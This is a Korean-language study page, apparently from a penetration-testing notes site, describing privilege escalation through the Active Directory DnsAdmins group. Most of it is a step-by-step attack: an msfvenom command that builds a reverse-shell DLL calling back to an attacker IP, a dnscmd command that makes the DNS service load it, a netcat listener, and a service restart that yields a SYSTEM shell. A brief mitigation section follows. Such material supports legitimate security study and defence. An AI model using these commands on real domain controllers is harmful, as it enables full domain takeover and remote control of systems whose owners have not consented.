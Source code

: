 ```yaml
---
layout: page
title: DnsAdmins_(Group)
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


# DnsAdmins 그룹을 이용한 권한 상승 가이드

Active Directory 환경에서 `DnsAdmins` 그룹의 구성원은 DNS 서버에 대한 관리 권한을 가집니다. 이 권한은 DNS 서비스가 시작될 때 임의의 DLL 파일을 로드하도록 설정하는 데 악용될 수 있으며, DNS 서비스는 `NT AUTHORITY\SYSTEM` 권한으로 실행되므로 이는 곧바로 시스템 전체의 권한 상승으로 이어집니다.

> **핵심:** `DnsAdmins` 그룹의 멤버십은 사실상 도메인 관리자(Domain Admin)와 동일한 수준의 권한으로 간주해야 합니다.

---

### **1. 취약점 식별**

- **목표:** 현재 사용자가 `DnsAdmins` 그룹의 멤버인지 확인합니다.

```powershell
whoami /groups
```

- **확인 사항:** 출력된 목록에서 `DnsAdmins` 그룹이 포함되어 있는지 확인합니다.

---

### **2. 공격 원리: 악성 DLL 로딩**

`DnsAdmins` 그룹 멤버는 `dnscmd.exe` 유틸리티를 사용하여 DNS 서버의 설정을 변경할 수 있습니다. 이 중 `/config /serverlevelplugindll` 옵션은 DNS 서비스가 로드할 커스텀 DLL의 경로를 지정하는 기능입니다. 공격자는 이 기능을 악용하여 리버스 셸 코드가 포함된 악성 DLL을 등록하고, 서비스 재시작을 통해 `SYSTEM` 권한으로 코드를 실행합니다.

---

### **3. 단계별 공격 절차**

#### **1단계: 악성 DLL 생성**
- `msfvenom`을 사용하여 리버스 셸을 실행하는 악성 DLL 파일을 생성합니다.

```bash
# -p: 페이로드 지정
# -f: 출력 포맷 (dll)
# LHOST, LPORT: 리스너 IP 및 포트
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=443 -f dll -o revshell.dll
```

#### **2단계: DLL 업로드**
- 생성된 `revshell.dll` 파일을 DNS 서버(보통 도메인 컨트롤러)의 파일 시스템에 업로드합니다. `C:\Temp`와 같이 누구나 접근 가능한 경로를 사용하는 것이 일반적입니다.

#### **3. DNS 서비스 설정 변경**
- `dnscmd.exe`를 사용하여 DNS 서비스가 우리가 업로드한 악성 DLL을 로드하도록 설정합니다.

```powershell
# <DC_Name>: DNS 서버의 호스트명 (예: DC01.corp.local) 없어도 될 듯
# /config /serverlevelplugindll: 로드할 DLL 경로 지정
dnscmd.exe <DC_Name> /config /serverlevelplugindll "C:\Temp\revshell.dll"
```

#### **4. 리스너 실행 및 서비스 재시작**
- 공격자 머신에서 Netcat 리스너를 실행하고, 타겟 서버의 DNS 서비스를 재시작하여 DLL이 로드되도록 합니다.

```bash
rlwrap nc -lvnp 443
```

```powershell
sc stop dns
sc start dns
```

#### **5. 권한 상승 성공**
- DNS 서비스가 재시작되면서 `revshell.dll`을 로드하고, 공격자의 리스너에 `NT AUTHORITY\SYSTEM` 권한의 셸이 연결됩니다.

---

### **4. 방어 (Mitigation)**

- **멤버십 최소화:** `DnsAdmins` 그룹에는 반드시 필요한 최소한의 관리자 계정만 포함시켜야 합니다.
- **모니터링:** DNS 서버 설정 변경, 특히 `ServerLevelPluginDll` 레지스트리 키(`HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters\`)에 대한 변경 사항을 모니터링합니다.

